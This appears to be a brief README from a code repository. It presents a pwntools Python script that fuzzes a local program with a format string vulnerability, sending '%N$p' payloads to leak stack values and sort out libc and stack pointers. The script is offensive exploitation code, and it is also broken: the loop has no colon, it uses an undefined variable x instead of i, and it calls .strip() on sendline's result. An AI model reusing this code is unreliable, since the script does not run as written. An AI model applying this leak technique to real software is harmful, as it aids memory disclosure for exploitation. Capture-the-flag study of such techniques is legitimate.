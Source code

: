 # Fuzzer

Here is a fuzzer which I have written which can be used when a format string vulnerability is present. This will leak values off of the stack, and you can know which value they are. You can then check whether they're `libc` pointers or `stack` pointers etc.

```python
from pwn import *

binary = "program" # filename
fuzzer_range = 100 # Change which range you want

e = ELF(f"./{binary}") 
p = process(e.path)

for i in range(0, fuzzer_range)
    p.sendline(f"%{x}$p").strip()
    p.clean()
    try:
        leak = int(p.recvline(), 16)
        print(f"%{x}$p : {hex(leak)}")
    except:
        pass
```

